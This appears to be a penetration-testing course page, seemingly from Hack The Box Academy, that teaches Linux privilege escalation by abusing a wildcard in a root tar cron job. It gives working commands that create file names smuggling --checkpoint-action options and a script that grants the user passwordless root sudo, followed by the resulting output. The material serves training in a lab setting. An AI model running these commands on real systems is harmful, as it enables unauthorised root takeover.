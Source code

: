 # Wildcard Abuse

Character	Significance
*	An asterisk that can match any number of characters in a file name.
?	Matches a single character.
[ ]	Brackets enclose characters and can match any single one at the defined position.
~	A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.
-	A hyphen within brackets will denote a range of characters.


An example of how wildcards can be abused for privilege escalation is the tar command, a common program for creating/extracting archives. If we look at the man page for the tar command, we see the following:

### Wildcard Abuse

```bash
man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an EXEC action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options. Let's see this in practice.

Consider the following cron job, which is set up to back up the /home/htb-student directory's contents and create a compressed archive within /home/htb-student. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

### Wildcard Abuse
mh dom mon dow command

```bash
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
# We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.
```

### Wildcard Abuse

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

### Wildcard Abuse

```bash
ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

### Wildcard Abuse

```bash
sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```